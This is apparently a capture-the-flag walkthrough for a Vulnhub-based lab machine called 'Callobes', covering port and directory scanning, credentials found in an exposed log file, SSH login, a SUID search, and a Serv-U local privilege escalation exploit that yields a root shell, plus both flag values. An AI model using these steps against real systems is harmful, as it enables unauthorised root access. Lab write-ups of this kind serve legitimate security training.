





# Callobes

This machine is taken from [Vulnhub](https://www.vulnhub.com/entry/election-1,503/) to support the idea of open source! We intend to continue sharing our projects as open source in the future.

There are several ways to exploit the machine, and we are currently sharing one method. You are encouraged to explore and discover other paths independently.

## High Level Overview
"Callobes" is a Linux-based easy Capture The Flag (CTF) machine that presents an engaging and challenging cybersecurity scenario. Here's a brief overview:
This machine features both a web server and an SSH server. The web server has Path Traversal vulnerability hiding a crucial piece of information, specifically credentials, within a file. 
Upon successfully gaining an initial foothold, you'll discover a setuid binary named "Serv-u." This binary holds the key to escalating your privileges and potentially achieving root access on the system.
"Callobes" promises to challenge your skills in web exploitation, Linux privilege escalation, and potentially other areas of cybersecurity, making it an exciting platform for honing your penetration testing abilities.

## Enumerating the target
Run a full-range port scan to find all open ports.

```
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.121.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-05 19:10 EDT
Nmap scan report for 192.168.121.129
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.93 seconds

```
Nmap found two tcp ports (22, 80)

Navigating to the IP address in a browser we see the following.



let’s run a dirbuster:
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:47:57 2023
URL_BASE: http://192.168.121.129/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/ ----
+ http://192.168.121.129/index.html (CODE:200|SIZE:10918)                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/javascript/                                                                                                                                                                 
+ http://192.168.121.129/phpinfo.php (CODE:200|SIZE:95537)                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/phpmyadmin/                                                                                                                                                                 
+ http://192.168.121.129/robots.txt (CODE:200|SIZE:31)                                                                                                                                                            
+ http://192.168.121.129/server-status (CODE:403|SIZE:280)   

```
With dirbuster we have an access directory, as well as an index.html, and robots.txt file 
As seen above we see a directory named robots.txt. 

First, navigate to the robots.txt file. We have four words in the robots.txt directory, as seen below. 



We just only have access to the Shimishao directory.

We can use the dirbuster tool again in the Shimishao directory
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129/shimishao

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:58:42 2023
URL_BASE: http://192.168.121.129/shimishao/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/shimishao/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/data/                                                                                                                                                             
+ http://192.168.121.129/shimishao/index.php (CODE:200|SIZE:6597)                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/js/                                                                                                                                                               
==> DIRECTORY: http://192.168.121.129/shimishao/languages/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/lib/                                                                                                                                                              
==> DIRECTORY: http://192.168.121.129/shimishao/media/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/themes/                                                                                                                                                           
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.121.129/shimishao/admin/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/ajax/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/components/                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/admin/css/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/img/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/inc/                                                                                                                                                        
+ http://192.168.121.129/shimishao/admin/index.php (CODE:200|SIZE:8967)                                                                                                                                           
==> DIRECTORY: http://192.168.121.129/shimishao/admin/js/                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/shimishao/admin/logs/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/plugins/                                                                                                                                                    

```
As seen above, we can see shmishao/admin/logs directory which is useful for us.
Let's try directly access this directory:



We see system.log file . Install this and see what we found.


As seen above we got our credentials for the ubuntu user pred8or. Now we can use these credentials to log in ssh. 

```
┌──(kali㉿kali)-[~]
└─$ ssh pred8or@192.168.121.129
pred8or@192.168.121.129's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

New release '20.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Tue Oct  3 03:42:01 2023 from 192.168.163.1
pred8or@shimishao:~$ 
```

From there we can see that we have found the user1.txt file. Let's read it via cat user1.txt. We've successfully found the flag!

```
pred8or@shimishao:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ cat user1.txt
ICSD{66d74978b307889bea234a4bc6570a36}

```

Privilege escelation is the process of going from lower permissions to higher permission. This is done by exploiting vulnerabilities, design flaws or misconfigurations in applications. This process is very important.

By using the following command you can enumerate all binaries having SUID permissions:

```
find / -perm -u=s -type f 2>/dev/null
```
```
pred8or@shimishao:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U


```

Following the execution of the specified command, we have identified the Serv-U with suid (Set User ID) permissions. Let's google it and see what vulnerability we find.



In Exploit-DB "Serv-U FTP Server < 15.1.7 - Local Privilege Escalation" we found vulnerable version.

https://www.exploit-db.com/exploits/47173

Let's exploit it:

We copy this bash script and run it in our home directory.

```
pred8or@shimishao:~$ ls
b.sh  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ bash b.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Oct  6 07:12 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# whoami
root
sh-4.4# cd /root
sh-4.4# ls
root.txt
sh-4.4# cat root.txt
ICSD{45caa8f3afa6fc94aa3c039ceeeb7883}
sh-4.4# 
```

